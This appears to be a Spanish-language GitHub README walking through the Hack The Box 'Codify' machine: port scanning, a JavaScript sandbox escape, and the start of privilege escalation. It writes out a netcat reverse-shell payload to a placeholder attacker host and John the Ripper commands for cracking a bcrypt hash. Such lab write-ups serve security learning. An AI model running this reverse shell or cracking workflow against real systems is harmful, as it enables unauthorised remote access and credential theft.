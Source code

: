 # Solución para "Codify" - Hack The Box

Este repositorio contiene una detallada guía paso a paso sobre cómo resolví la máquina "Codify" en Hack The Box. Mi objetivo es proporcionar tanto a los entusiastas de la ciberseguridad como a los profesionales, una referencia útil y educativa que puedan seguir para entender y replicar el proceso de resolución. Cualquier aportación, corrección o protip se agradece.

## Contenido

- **Análisis Inicial**: Una descripción completa del análisis inicial que realicé para identificar los vectores de ataque posibles en "Codify".
- **Enumeración**: Detalles sobre las herramientas y técnicas que utilicé para la enumeración de servicios, puertos y vulnerabilidades.
- **Explotación**: Un paso a paso de cómo exploté las vulnerabilidades encontradas para ganar acceso inicial al sistema.
- **Escalada de Privilegios**: Explicación de cómo escalé privilegios para obtener un acceso más profundo al sistema, incluyendo cualquier técnica y herramienta utilizada.
- **Post-Explotación**: Una visión general de las acciones realizadas después de obtener el acceso deseado, como la recolección de banderas y la extracción de datos sensibles.
- **Conclusión y Aprendizaje**: Reflexiones sobre el desafío, qué aprendí durante el proceso y consejos para quienes intenten resolver "Codify".
- **Recursos y Herramientas**: Una lista de todas las herramientas, scripts y recursos externos que me fueron útiles durante la resolución de la máquina.

## Objetivo Educativo

El propósito principal de este repositorio es educativo. Busco compartir mi enfoque y las lecciones aprendidas con la comunidad para que otros puedan aprender de la experiencia y, potencialmente, aplicar estos conocimientos en sus propios desafíos de pentesting y ciberseguridad.

## Análisis Inicial y Enumeración

El primer paso en cualquier desafío de CTF (Capture The Flag) es comprender el terreno. Para ello, arranqué la máquina "Codify" en Hack The Box y utilicé `nmap`, una herramienta esencial en el arsenal de cualquier entusiasta de la seguridad, para realizar un escaneo de los puertos. El escaneo reveló tres puertos abiertos: 22 (SSH), 8080 y 3000.

![NMAP](./img/Nmap.PNG)

El puerto 8080 generalmente aloja aplicaciones web, pero en este caso, intentar acceder resultó en una redirección a un callejón sin salida. Los desarrolladores a menudo utilizan el puerto 3000 para pruebas locales, lo que me hizo pensar que podría contener una pista crucial. Al visitar este puerto en mi navegador, me encontré con una página web que presentaba un entorno sandbox para ejecutar código Javascript

## Explotación del Entorno Sandbox

La página web en el puerto 3000 era un rompecabezas en sí misma, dividida en varias secciones incluyendo 'About Us', 'Editor', 'Limitations', y una página de bienvenida. La sección 'Limitations' era particularmente interesante, ya que detallaba las restricciones impuestas a la ejecución del código, excluyendo explícitamente módulos potencialmente peligrosos como `fs` y `child_process`. Estas restricciones sugieren una protección consciente contra ataques maliciosos, pero también señalan hacia las vulnerabilidades que el creador consideró más críticas.

![NMAP](./img/AboutUs.PNG)

La verdadera mina de oro estaba en 'About Us', donde se mencionaba la librería usada para sandboxing. Una búsqueda en el repositorio de GitHub de la librería reveló varias vulnerabilidades documentadas. Probé varias hasta encontrar una que permitiera ejecutar código fuera del sandbox, utilizando [Gist de GitHub](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

## Establecimiento de un Shell Inverso

Ahora que estaba fuera del sandbox, el siguiente paso lógico era establecer un shell inverso. Este proceso, aunque familiar, requirió paciencia y precisión para adaptar el ataque al entorno específico de "Codify". Tras varios intentos y ajustes de mi payload, `netcat` me brindó ese preciado prompt de shell, marcando la primera victoria significativa en esta batalla.

Payload: mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ATACANTE PUERTO_ATACANTE > /tmp/f; rm /tmp/f


## Escalada de Privilegios: El Desafío Continúa

Con acceso al sistema, el siguiente objetivo era escalar privilegios. Este paso se convirtió en el más desafiante. Navegando por los directorios del sistema, encontré un archivo que parecía contener una contraseña, oculta en el formato de un hash bcrypt. La naturaleza del hash sugería una fortaleza significativa, pero también representaba una pista crítica hacia la obtención de mayores privilegios en la máquina.
Utilizando la herramienta John The Ripper y la wordlist rockyou, consigo crackear el hash: 
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hashJoshua.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashJoshua.txt 

Pruebo a iniciar sesión como el usuario Joshua utilizando la contraseña del hash, y consigo acceso al usuario.
En su directorio home se encuentra la user flag, primer objetivo cumplido, pero ahora debo intentar escalar privilegios hacia el usuario root.

Utilizando el comando sudo -l se puede observar que el usuario joshua puede ejecutar mysql-backup.sh como root. Lo que nos da un punto de apoyo para poder escalar privilegios.

